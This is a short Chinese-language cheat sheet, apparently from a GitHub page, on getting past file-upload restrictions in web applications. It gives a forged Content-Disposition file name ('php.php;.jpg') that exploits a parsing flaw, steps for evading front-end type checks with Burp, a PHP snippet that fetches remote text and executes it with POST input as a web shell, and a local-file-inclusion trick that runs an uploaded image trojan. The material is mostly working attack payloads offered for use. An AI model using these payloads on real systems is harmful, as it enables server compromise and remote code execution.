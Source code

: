 #### 解析漏洞

```
Content-Disposition: form-data; ;  filename=php.php;.jpg
```

### 前端限制绕过

```
1.使用BURP抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。

```

### 下载绕过

远程下载文件绕过

```
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?>

```

### 文件包含绕过

```
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg

```